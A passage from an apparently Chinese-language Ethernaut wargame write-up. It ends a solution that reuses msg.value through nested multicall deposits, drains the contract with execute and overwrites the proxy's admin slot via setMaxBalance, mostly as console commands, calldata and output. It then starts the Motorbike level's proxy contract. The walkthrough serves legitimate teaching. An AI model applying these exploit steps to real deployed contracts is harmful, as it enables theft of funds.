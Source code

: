 所以需要构造一个 calldata，它会通过 multicall 调用 deposit，然后把两个这个 calldata 传入 multicall，同时附带 value 0.001 ether，这样 balances[player] 就会增加 0.002 ether，然后就可以通过 execute 直接提取出这 0.002 ether

提取后合约账户的 balance 变为 0，就可以设置 maxBalance 了
```js
> web3.utils.sha3("deposit()").slice(0, 10) // deposit selector
'0xd0e30db0'
> data = (await contract.methods["multicall(bytes[])"].request(["0xd0e30db0"])).data // 构造通过 multicall 调用 deposit 的 calldata
'0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000'
> await contract.multicall([data, data], {value: toWei("0.001")})
> await getBalance(instance)
'0.002'
> contract.execute(player, toWei("0.002"), 0
> await getBalance(instance)
'0'
> await web3.eth.getStorageAt(instance, 1)
'0x000000000000000000000000<level address>'
> contract.setMaxBalance(player)
> await web3.eth.getStorageAt(instance, 1)
'0x000000000000000000000000<player address>'
```

---

## Motorbike

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT

    pragma solidity <0.7.0;

    import "@openzeppelin/contracts/utils/Address.sol";
    import "@openzeppelin/contracts/proxy/Initializable.sol";

    contract Motorbike {
        // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
        bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
        
        struct AddressSlot {
            address value;
        }
        
        // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
        constructor(address _logic) public {
            require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
            _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
            (bool success,) = _logic.delegatecall(
                abi.encodeWithSignature("initialize()")
            );
            require(success, "Call failed");
        }
